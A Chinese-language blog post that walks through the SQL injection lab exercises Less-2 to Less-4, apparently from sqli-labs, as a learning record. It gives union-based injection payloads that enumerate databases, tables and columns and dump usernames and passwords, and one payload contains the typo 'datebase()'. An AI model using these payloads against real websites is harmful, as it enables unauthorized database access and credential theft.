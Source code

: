 ```yaml
---
layout: post
title: SQL_报错注入(less2,less3,less4)
date: 2021-06-01 17:55 +0900
category: sql-inject
---
```

<!-- TOC -->

- [0x0 LESS2-布尔型注入](#0x0-less2-布尔型注入)
- [0x1 LESS3-字符型注入(单引号带括号)](#0x1-less3-字符型注入单引号带括号)
- [0x2 LESS4-字符型注入(双引号带括号)](#0x2-less4-字符型注入双引号带括号)

<!-- /TOC -->
## 0x0 LESS2-布尔型注入
- 正常访问  
![](/images/20210601-1.png)
- 引号报错  
![](/images/20210601-2.png)
- 判断注入点  
`?id = 1 and 1=1 #`  
`?id = 1 and 1=2 #`
![](/images/20210601-3.png)
- 测列数  
`?id = 1 and 1=1 order by 4 #`  
![](/images/20210601-4.png)
- 测数据显示点  
`?id=-1 and 1=1 union select 1,2,3 #  //注意id改成-1`  
![](/images/20210601-5.png)  
- 测试数据库名和用户权限  
`?id=-1 and 1=1 union select 1,datebase(),user() #`  
![](/images/20210601-6.png)  
- 测表名  
`?id=-1 and 1=1 union select 1,(select group_concat(table_name) from information_schema.tables where table_schema = database() ),3 #`  
`?id=-1 and 1=1 union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database() #`  
![](/images/20210601-7.png)
- 测列名  
`?id=-1 and 1=1 union select 1,(select group_concat(column_name) from information_schema.columns where table_name='users' and table_schema = database()),3 #`  
`?id=-1 and 1=1 union select 1,group_concat(column_name),3 from information_schema.columns where table_name='users' #`  
![](/images/20210601-8.png)
- 测字段  
`?id=-1 and 1=1 union select 1,(select group_concat(concat_ws(0x7e,username,password))from users),3 #`  
`?id=-1 and 1=1 union select 1,group_concat(concat_ws(0x7e,username,password)),3 from users #`  
![](/images/20210601-9.png)

## 0x1 LESS3-字符型注入(单引号带括号)
- 报错信息  
![](/images/20210601-10.png)
根据报错信息可以推断存在一个括号  
![](/images/20210601-11.png)
实际表现为  
`select ('id=1') and 1=2 --+) //--+后被注释掉`  
等价于  
`select ('id=1') and 1=2`  
- 测列数  
`?id=1') and 1=1 order by 4--+`  
![](/images/20210601-12.png)
- 测数据显示点  
`?id=-1') and 1=1 union select 1,2,3--+`  
![](/images/20210601-13.png)
- 测试数据库名和用户权限  
`?id=-1') union select 1,database(),user() --+`  
![](/images/20210601-14.png)
**之后步骤与LESS-2一致**  

## 0x2 LESS4-字符型注入(双引号带括号)
- 报错信息  
![](/images/20210601-15.png)
- 注入点  
`?id= 1") and 1=2 --+`  
![](/images/20210601-16.png)
- 测数据显示点  
`?id= -1") union select 1,2,3 --+`  
![](/images/20210601-17.png)
- 测试数据库名和用户权限  
`?id= -1")  union select 1,database(),user() --+`  
![](/images/20210601-18.png)
- 测表名  
`?id= -1")  union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database() --+`  
![](/images/20210601-19.png)
- 测字段  
`?id= -1") union select 1,group_concat(column_name),3 from information_schema.columns where table_name='users'  and table_schema=database()--+`  
![](/images/20210601-20.png)
- 测数据  
`?id= -1") union select 1,group_concat(concat_ws(0x7e,username,password)),3 from users--+`  
![](/images/20210601-21.png)